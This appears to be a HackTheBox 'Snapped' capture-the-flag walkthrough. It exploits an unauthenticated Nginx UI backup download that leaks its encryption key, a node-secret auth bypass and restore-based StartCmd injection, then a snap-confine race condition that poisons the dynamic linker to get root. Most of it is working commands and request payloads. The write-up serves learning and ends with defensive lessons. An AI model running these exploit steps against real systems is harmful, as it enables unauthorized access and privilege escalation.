




# Snapped — HackTheBox Hard Writeup

Snapped is a Hard-rated Linux box that chains together two CVEs with satisfying surgical precision. You start by pulling an unauthenticated encrypted backup off an Nginx UI management panel, extracting secrets and cracking credentials to land a shell, then escalate through one of the most intricate race-condition exploits I've seen on the platform — poisoning the dynamic linker inside a snap namespace to hijack a SUID binary as root.

> **Prerequisites:** This walkthrough assumes familiarity with web API enumeration and virtual host discovery, basic cryptography concepts (AES-CBC, RSA PKCS1v1.5), Linux namespace mechanics and how `snap-confine` sandboxing works, and race-condition exploitation at the filesystem level. If Linux namespaces are unfamiliar territory, spend some time with easier privilege escalation boxes before tackling this one.

---

## Reconnaissance

### Port Scan

Standard TCP scan first. I always start with a fast all-port scan before diving into service fingerprinting.



Two ports. SSH on 22 is essentially a trophy cabinet for now — we'll need credentials before that's useful. The real interest is port 80.

### Virtual Host Enumeration

Navigating directly to the IP gives a generic corporate landing page. Time to fuzz for virtual hosts. I filter out the default redirect size (154 bytes for 302s) and the main page size (20199 bytes) to cut noise:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://<TARGET> \
  -H "Host: FUZZ.snapped.htb" \
  -fs 154,20199
```



Adding both `snapped.htb` and `admin.snapped.htb` to `/etc/hosts`, the admin panel reveals itself as **Nginx UI v2.3.2** — a web-based management interface for Nginx. Version number disclosed right in the footer. Let's see what vulnerabilities that version is carrying.

---

## Foothold

### CVE-2026-27944 — Pre-Auth Backup Download with Key Disclosure

A quick review of Nginx UI's routing code reveals that `/api/backup` was never wired into the authenticated router group. It's sitting on the public router, meaning anyone can hit it without a session token. The endpoint returns an AES-256-CBC encrypted ZIP, which sounds secure — until you notice the response headers.

```bash
curl -v http://admin.snapped.htb/api/backup -o backup.zip
```



The `X-Backup-Security` header contains `base64_key:base64_iv` — the decryption material for the file it just handed you. This is CVE-2026-27944 in one line: an unauthenticated endpoint that leaks its own encryption key. Decrypt and unzip:

```bash
# Parse key and IV from header, then decrypt
KEY=$(echo "7Kp2mNqR8sVtYwXa3bCdEfGh4iJkLmNo==" | base64 -d | xxd -p -c 256)
IV=$(echo "Pq5rStUvWxYz1A2B==" | base64 -d | xxd -p -c 256)
openssl enc -d -aes-256-cbc -K $KEY -iv $IV -in backup.zip -out backup_dec.zip
unzip backup_dec.zip -d backup/
```

The backup contains `nginx-ui.zip`, which unpacks to `app.ini` (holding the application secrets: `JwtSecret`, `crypto.Secret`, and `node.Secret`) and `database.db` — a SQLite database with the user table.

### Cracking the Nginx UI Credentials

Pulling the hashes from the database:

```bash
sqlite3 database.db "SELECT username, password FROM users;"
```

Two accounts: `admin` and `jonathan`. Both bcrypt ($2a$10$). I threw both at hashcat with rockyou:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

The admin hash didn't crack in a reasonable time. Jonathan's did:

```
$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark
```

### Node Secret Auth Bypass and User Creation

The `node.Secret` from `app.ini` isn't just a stored credential — it's presented as the `X-Node-Secret` header to bypass authentication on internal API operations entirely. With it, I can create a fresh admin user without ever needing to log in legitimately:

```bash
curl -X POST http://admin.snapped.htb/api/users \
  -H "X-Node-Secret: c64d7ca1-19cb-4ebe-96d4-49037e7df78e" \
  -H "Content-Type: application/json" \
  -d '{"name":"pwned","password":"Pwned123"}'
```

Now I have a working admin account on the panel. But I need execution, not just admin UI access.

### Backup Restore — StartCmd Injection

Nginx UI v2.3.2 patched direct command injection through the settings API — `start_cmd`, `reload_cmd`, `restart_cmd`, and `test_config_cmd` are all filtered when set via `/api/settings`. However, the `/api/restore` endpoint (also unauthenticated, same CVE family) writes directly to `app.ini` without going through that filter.

The plan: modify the decrypted backup's `app.ini` to change `StartCmd = login` to `StartCmd = bash`, repackage it, and restore it. When Nginx UI restarts and opens its PTY, it'll spawn bash instead of the login prompt.

Key parameters for the restore request:

```python
# Multipart form fields for /api/restore
{
    "backup_file": open("modified_backup.zip", "rb"),
    "security_token": "<base64_key>:<base64_iv>",  # generate fresh AES key
    "verify_hash": "false",    # skip integrity check
    "restore_nginx": "false",  # avoid permission errors on /etc/nginx
    "restore_nginx_ui": "true"
}
```

Setting `verify_hash: false` bypasses the backup integrity check, and `restore_nginx: false` avoids a permissions wall we'd hit writing to `/etc/nginx` as the web process.

### PTY WebSocket Shell

After the restore triggers a restart, connecting to the PTY websocket with a valid JWT gives a shell as `www-data`. The websocket lives at `ws://admin.snapped.htb/api/pty?token=<JWT>` and uses JSON framing — not raw text. Getting login wrong here cost me some time initially.

The login flow requires RSA-encrypting the password (PKCS1v1.5, **not** OAEP — important distinction) using the public key from `/api/crypto/public_key`. Once authenticated, the PTY protocol accepts:

```json
{"Type": 1, "Data": "id\n"}
```

Type 1 is input, Type 2 is terminal resize, Type 3 is keepalive ping. With `StartCmd = bash` in place, the "terminal" is a raw bash process owned by `www-data`.

### Pivoting to jonathan via SSH

Password reuse. `jonathan:linkinpark` (cracked from the Nginx UI database) works directly for SSH:

```bash
ssh jonathan@snapped.htb
```

User flag retrieved.

---

## Privilege Escalation

### CVE-2026-3888 — snap-confine + systemd-tmpfiles Race Condition LPE

This is the centrepiece of the box, and it's genuinely complex. Let me break down what's happening before describing the steps.

**The vulnerability in brief:** `snap-confine` (SUID root) creates `/tmp/.snap` during its "mimic phase" when building a snap's private mount namespace. If `/tmp/.snap` gets deleted while snap-confine is mid-execution, a low-privileged user can recreate the directory as themselves. By exchanging the real directory tree with an attacker-controlled one via `renameat2(RENAME_EXCHANGE)`, we control what gets mounted into the namespace. We place a malicious `ld-linux-x86-64.so.2` (the dynamic linker) in the fake library path. When snap-confine — running as root — loads a SUID binary inside the namespace, it loads *our* linker, which executes our shellcode as root.

**Why this box makes it achievable:** Normally `/tmp/.snap` would survive for the 30-day default `systemd-tmpfiles` cleanup age. This box sets it to **4 minutes** (`D /tmp 1777 root root 4m`), and the cleanup timer fires **every minute**. So the precondition (`.snap` gets deleted) happens naturally while you're working.

**Required preconditions (all present on this box):**
- `snapd` version 2.63.1 (vulnerable; patched in 2.74.2)
- Firefox snap installed (gives us a valid snap to invoke)
- Unprivileged user namespaces enabled
- The short-lived tmpfiles config described above

Let's build the tools. Compile statically on Kali to avoid library dependency issues on the target:

```bash
gcc -O2 -static -o firefox_2404 firefox_2404.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell.c
```

Upload both to `jonathan`'s home directory, then open **three SSH sessions** — the exploit is inherently interactive and can't be fully scripted over non-interactive channels.

---

**Terminal 1 — Enter the sandbox, wait for `.snap` deletion**

We launch `snap-confine` manually to enter a Firefox snap execution environment, then wait for `systemd-tmpfiles` to delete `/tmp/.snap`:

```bash
env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base core22 \
  snap.firefox.hook.configure /bin/bash
cd /tmp
echo $$
while test -d ./.snap; do touch ./; sleep 1; done
```

The `touch ./` inside the loop resets the directory's access timestamp, preventing tmpfiles from deleting `/tmp` itself (we only want `.snap` deleted). Note the PID printed by `echo $$` — we'll need it in the other terminals. After roughly four minutes, the loop exits silently: `.snap` has been deleted. **Keep this terminal open** — closing it destroys the mount namespace we need.

---

**Terminal 2 — Race helper**

We need to access the sandbox's `/tmp` (not the host's `/tmp`) via the mount namespace's procfs path, then run the race:

```bash
cd /proc/<T1_PID>/cwd
```

Before running the race binary, there's a namespace caching problem to address. `snap-confine` caches namespace state, and a stale cache will cause our next invocation to skip the mimic phase entirely. We destroy it by entering a `systemd-run` scope, invoking snap-confine with `--base snapd` (which errors out, but that's expected and clears the cache), then exiting the scope:

```bash
systemd-run --user --scope --unit=snap.d$(date +%s) /bin/bash
env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base snapd \
  snap.firefox.hook.configure /nonexistent
exit
```

Now, still in `/proc/<T1_PID>/cwd`, run the race helper:

```bash
~/firefox_2404 ~/librootshell.so
```

The AF/UNIX socket backpressure on stderr makes the race window deterministic — the helper stalls snap-confine's mimic phase long enough to win the `renameat2(RENAME_EXCHANGE)` swap nearly 100% of the time. Wait for the output:

```
[+] SWAP DONE!
```

**Keep Terminal 2 open.**

---

**Terminal 3 — Overwrite the dynamic linker and trigger root**

Read the PID written by the race helper, then verify we own the linker path inside the poisoned namespace:

```bash
PID=$(cat /proc/<T1_PID>/cwd/race_pid.txt)
stat -c '%U:%G %a' /proc/$PID/root/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
```


We own it. Now overwrite the dynamic linker with our shellcode payload and copy busybox into place as a shell we can use inside the restricted environment:

```bash
cd /proc/$PID/root
cp /usr/bin/busybox ./tmp/sh
cat ~/librootshell.so > ./usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
```

Trigger root execution by invoking `snap-confine` (SUID root) in a way that causes it to load the poisoned linker — it follows `PT_INTERP` to our shellcode:

```bash
env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base core22 \
  snap.firefox.hook.configure /usr/lib/snapd/snap-confine
```

We now have a BusyBox root shell, but we're still inside the Firefox AppArmor sandbox. The Firefox snap profile explicitly permits writes to `/var/snap/firefox/common/`, so we escape by planting a SUID bash there:

```bash
cp /bin/bash /var/snap/firefox/common/bash
chmod 04755 /var/snap/firefox/common/bash
exit
```

Back in jonathan's regular session, drop into the unconfined root shell:

```bash
/var/snap/firefox/common/bash -p
```



Root.

---

## Lessons Learned

**On the Nginx UI chain (CVE-2026-27944):**
- An endpoint that isn't in the authenticated router group is effectively public regardless of what the UI shows. Always audit routing registration, not just UI visibility.
- Returning an AES key in the response header of the encrypted file it protects is a textbook "security theater" failure — the encryption provides zero benefit.
- Backup restore endpoints writing directly to config files bypass any API-level input filtering. The attack surface of "import" operations is consistently underestimated.
- The PTY websocket uses JSON framing (`{"Type": 1, "Data": "...\n"}`), and the login RSA encryption is PKCS1v1.5 — **not** OAEP. Getting the padding scheme wrong will silently fail authentication.

**On CVE-2026-3888:**
- The exploit **requires three interactive terminals** — the mount namespace in Terminal 1 must stay alive throughout, and the race must be run from `/proc/<PID>/cwd` (the sandbox's `/tmp`), not the host `/tmp`. Running from the wrong location causes `snap-confine` to complain about a "void directory."
- Namespace caching is the biggest pitfall. The `--base snapd` invocation inside a `systemd-run --scope` shell must complete and that shell must exit before running the race helper. Skip this and the mimic phase never fires.
- The AF/UNIX socket backpressure technique for making races deterministic is genuinely elegant — rather than timing luck, the exploit forces snap-confine to block at a predictable point.
- The AppArmor escape via `/var/snap/firefox/common/` is the final gate. The Firefox snap profile must allow writes there by design, making it a reliable escape hatch.
- The 4-minute tmpfiles cleanup age is the CTF-ification of the real-world precondition. In production environments, this race would require either a long-running snap operation or triggering a cleanup manually — neither is easy. The box makes it tractable.

The overall chain here is representative of how real post-exploitation works: each layer of access opens a slightly different attack surface, and the final privilege escalation required deep understanding of how Linux namespaces, SUID binaries, and dynamic linking interact. If the snap-confine mechanics are new to you, the [Linux Namespaces deep-dive on lwn.net](https://lwn.net/Articles/531114/) is worth reading before attempting similar boxes.
